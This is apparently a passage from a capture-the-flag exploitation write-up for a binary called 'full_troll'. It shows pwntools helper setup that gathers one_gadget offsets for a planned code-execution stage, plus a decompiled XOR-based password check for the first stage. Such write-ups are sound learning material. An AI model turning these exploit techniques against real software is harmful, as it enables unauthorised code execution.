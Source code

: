 ### Exploitation

#### Helper

For cleaner exploit script, we use helper function. I use one gadget to trigger RCE later in stage 5.

```python
def sendpwd(r, cnt):
    r.recv()
    r.sendline(cnt)

r = process("./full_troll", aslr=1)
e = ELF("./full_troll", checksec=False)
l = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
path_to_libc = '/lib/x86_64-linux-gnu/libc.so.6'
ogt = []
for offset in generate_one_gadget(path_to_libc):
    ogt.append(offset)
#gdb.attach(r, "b *$rebase(0xF4A)")
```

#### Stage 1. Reverse engineering password

There is logic function to check password whether it's right or wrong.

```c
signed __int64 __fastcall check_password_A53(__int64 a1)
{
  if ( strlen(a1) <= 22 )
    return 1LL;
  if ( (*a1 ^ *(a1 + 1)) == 0x3F
    && (*(a1 + 1) ^ *(a1 + 2)) == 0xB
    && (*(a1 + 2) ^ *(a1 + 3)) == 0x27
    && (*(a1 + 3) ^ *(a1 + 4)) == 0x33
    && (*(a1 + 4) ^ *(a1 + 5)) == 0x41
    && (*(a1 + 5) ^ *(a1 + 6)) == 0x4F
    && (*(a1 + 6) ^ *(a1 + 7)) == 0x3B
    && (*(a1 + 7) ^ *(a1 + 8)) == 0x1B
    && (*(a1 + 8) ^ *(a1 + 9)) == 0x21
    && (*(a1 + 9) ^ *(a1 + 10)) == 0x32
    && (*(a1 + 10) ^ *(a1 + 11)) == 0x73
    && (*(a1 + 11) ^ *(a1 + 12)) == 0x79
    && (*(a1 + 12) ^ *(a1 + 13)) == 0x2B
    && (*(a1 + 13) ^ *(a1 + 14)) == 0x3A
    && *(a1 + 14) == *(a1 + 15)
    && (*(a1 + 15) ^ *(a1 + 16)) == 2
    && (*(a1 + 16) ^ *(a1 + 17)) == 0x38
    && (*(a1 + 17) ^ *(a1 + 18)) == 0x1D
    && (*(a1 + 18) ^ *(a1 + 19)) == 3
    && (*(a1 + 19) ^ *(a1 + 20)) == 4
    && (*(a1 + 20) ^ *(a1 + 21)) == 0x49
    && (*(a1 + 21) ^ *(a1 + 22)) == 0x61
    && *(a1 + 22) == 0x58 )
  {
    return 0LL;
  }
  return 2LL;
}
```
